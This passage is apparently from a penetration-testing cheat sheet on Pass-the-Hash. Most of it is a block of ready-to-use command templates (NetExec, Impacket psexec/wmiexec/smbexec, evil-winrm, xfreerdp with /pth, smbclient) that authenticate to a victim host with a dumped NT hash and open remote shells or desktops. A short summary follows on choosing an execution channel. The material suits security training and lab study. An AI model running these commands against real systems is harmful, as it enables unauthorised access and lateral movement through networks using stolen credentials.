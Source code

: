 ```bash
nxc smb $VICTIM -u $USER -H $NT -d $DOMAIN

# SMB shells
psexec.py  -hashes $LM:$NT $DOMAIN/$USER@$VICTIM
wmiexec.py -hashes $LM:$NT $DOMAIN/$USER@$VICTIM
smbexec.py -hashes $LM:$NT $DOMAIN/$USER@$VICTIM

# WinRM PowerShell
evil-winrm -i $VICTIM -u $USER -H $NT

# RDP desktop
xfreerdp /v:$VICTIM /u:$USER /d:$DOMAIN /pth:$NT /cert:ignore

# SMB client
smbclient.py -hashes $LM:$NT $DOMAIN/$USER@$VICTIM
```

## Summary
- Pass-the-Hash leverages NTLM challenge-response to authenticate using the NT hash, enabling lateral movement without knowing plaintext passwords.
- After dumping hashes, validate them against reachable services and choose an execution channel (SMB psexec/wmiexec, WinRM, RDP).
- Impacket tools, CrackMapExec/NetExec, Evil-WinRM, and xfreerdp cover most PTH scenarios in labs.
- Mind domain vs local contexts, service reachability, and UAC remote restrictions. Use the NT hash accurately and prefer methods that fit the target’s exposed services.